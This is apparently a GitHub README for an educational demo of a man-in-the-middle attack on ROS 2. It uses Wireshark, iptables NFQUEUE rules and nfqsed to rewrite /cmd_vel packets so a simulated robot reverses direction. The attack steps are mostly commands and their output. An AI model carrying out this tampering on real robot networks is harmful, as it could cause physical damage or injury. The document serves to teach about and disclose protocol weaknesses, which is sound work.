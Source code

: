 # ROS2_Attack_Demo_Educational

Table of Contents
=================
  * [Description](#description)
  * [Requeriments](#requeriments)
  * [Instructions](#instructions)
  * [Documentation and Resource links](#documentation_and_resource_links)


  
## Description 
This repository contains a step-by-step guide to perform a MITM attack in ROS 2, for educational purposes. This guide makes use of the MERLIN2_docker platform, which consists of a docker image with a simulator for the RB1 robot.

The purpose of this guide is to present the vulnerabilities present in the communication mechanisms used by the ROS 2 framework.

## Requeriments

First of all, the following software is required to perform the experiment:

 - A installation of `Docker`
 - A local `ROS 2` distribution installed (Humble is recommended)
 - The package `ros-<DISTRO>-teleop-twist-keyboard`
 - A installation of `Wireshark`
 - `nfqsed` tool [https://github.com/rgerganov/nfqsed]
 - Docker image that contain the platform used for the experiment: [`MERLIN2_docker`](#https://github.com/MERLIN2-ARCH/merlin2_docker)
 - Installation of `Gazebo`
 - Installation of Rviz2
 - Installation of Rocker [https://github.com/osrf/rocker]

## Instructions

1. Execute the docker image with Rocker

    ```
    sudo rocker --nvidia --x11 --privilege mgons/merlin2:humble /bin/bash
    ```

2. Inside the docker run the simulator. This will open a local window for Gazebo and Rviz2.
    ```
    ros2 launch rb1_sandbox small_house.launch.py
    ```
    
    ![Gazebo Image](/images/Gazebo.png "Example of Gazebo execution with Rocker")
    ![RVIZ2 Image](/images/RVIZ2.png "Example of RVIZ2 execution with Rocker")
    
    
3. Run teleop node locally
    ```
    ros2 run teleop_twist_keyboard teleop_twist_keyboard
    ```
4. We will focus in the topic which have information about movement: /cmd_vel. With the following command we can see a list of the available topics.
    ```shell
    $ ros2 topic list
    ```
    ```shell
    /amcl/transition_event
    /amcl_pose
    /behavior_server/transition_event
    /behavior_tree_log
    /bond
    /bt_navigator/transition_event
    /camera/camera_info
    /camera/depth/camera_info
    /camera/depth/image_raw
    /camera/image_raw
    /camera/points
    /clicked_point
    /clock
    /cmd_vel
    /controller_server/transition_event
    ...
    ```
    
    We can see relevant information about the topic with `ros2 topic info <<topic_name>>>`. In this way, we can identify the message type that is been used by the topic. In that case that message type is: `geometry_msgs/msg/Twist`
    
    ```shell
    $ ros2 topic info /cmd_vel -v
    ```
    ```shell
    Type: geometry_msgs/msg/Twist
    Publisher count: 6
    Node name: teleop_twist_keyboard
    Node namespace: /
    Topic type: geometry_msgs/msg/Twist
    Endpoint type: PUBLISHER
    GID: 01.0f.68.a6.11.21.2c.5f
    .01.00.00.00.00.00.11.03.00.00.00.00.00.00.00.00
    QoS profile:
        Reliability: RELIABLE
        History (Depth): UNKNOWN
        Durability: VOLATILE
        Lifespan: Infinite
        Deadline: Infinite
        Liveliness: AUTOMATIC
        Liveliness lease duration: Infinite
    ```
    
    We also can show the structure of the message type:
    
    ```shell
    $ ros2 interface show geometry_msgs/msg/Twist
    ```
    ```shell
    Vector3 linear
    float64 x
    float64 y
    float64 z
    Vector3 angular
    float64 x
    float64 y
    float64 z
    ```
    
5. Teleop node will publish message in /cmd_vel topic. In that case, the node will publish a 0.5 value in X coordinate (of linear velocity) when the user press 'I' key.

    ```shell
    $ ros2 topic echo /cmd_vel
    ```
    ```shell
    linear:
    x: 0.5
    y: 0.0
    z: 0.0
    angular:
    x: 0.0
    y: 0.0
    z: 0.0
    ```
    
6. We must identify the Docker IP. In our case, the teleop node will be publishing in 172.17.0.1 while robot simulation has 172.17.0.2.

    ```shell
    $ ifconfig
    ```
    ```shell
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500
    inet 172.17.0.1 netmask 255.255.0.0
    broadcast 172.17.255.255
    inet6 fe80::42:14ff:fe51:3357 prefixlen 64
    scopeid 0x20<link>
    ether 02:42:14:51:33:57 txqueuelen 0 (
    Ethernet)
    RX packets 70409 bytes 17665691 (17.6 MB)
    RX errors 0 dropped 0 overruns 0 frame 0
    TX packets 11494 bytes 5410634 (5.4 MB)
    TX errors 0 dropped 0 overruns 0 carrier 0
    collisions 0
    ```
    
7. Run Wireshark (with root) and search for the ros2 packages. The teleop node can be used to generate traffic. We can use the next rule to filter the traffic: ```udp && ip.src==172.17.0.1 && ip.dst==172.17.0.2```. Once we have located a package we must search for the ports and replace them in the scriptDemo.sh file:

![Wireshark Image](/images/Wireshark.png "Example of ROS2 packages in Wireshark")

![Ports Image](/images/ports.png "Ports in Wireshark")

    
    ```shell
    $ sudo iptables -A INPUT -p udp --sport <<port_number>> -j NFQUEUE --queue-num 0
    $ sudo iptables -A OUTPUT -p udp --dport <<port_number>> -j NFQUEUE --queue-num 0
    ```
    
The script is modifying the package replacing the hexadecimal value of x coordinate (of linear velocity). The original value is 0xE03F (0.5 in decimal) and nfqsed will replace that value for 0xE0BF (-0.5 in decimal).

8. Next step consist in run the script and use teleop node to move the robot forward ("I" key), with nfqsed runing, the robot should moving backward when we press "I" key. With Wireshark we can monitor the traffic and see the modification of the package.

    ```shell
    $ ./scriptDemo.sh
    ```
    ```shell
    Rules (in hex):
    e03f -> e0bf
    opening library handle
    unbinding existing nf_queue handler for AF_INET (if any)
    binding nfnetlink_queue as nf_queue handler for AF_INET
    binding this socket to queue ’0’
    setting copy_packet mode
    packet received
    packet received
    rule match, changing payload: e03f -> e0bf
    packet received
    ```
    
    Remember that our script for run nfqsed need no be located inside the nfqsed folder, otherwise you will have to modify the script with the path to nfqsed.
    
    ![OriginalPackage Image](/images/paquete.png "Package before modification.")
    ![HackedPackage Image](/images/RVIZ2.png "Package after modification.")

## Documentation and Resource links

Some useful links:

- Rocker Github: https://github.com/osrf/rocker
- nfqsed Github: https://github.com/rgerganov/nfqsed
- MERLIN2_docker Github: https://github.com/MERLIN2-ARCH/merlin2_docker
- MERLIN2_docker DockerHub: https://hub.docker.com/r/mgons/merlin2

Documentation:
- Paper:
- Demostration video: 
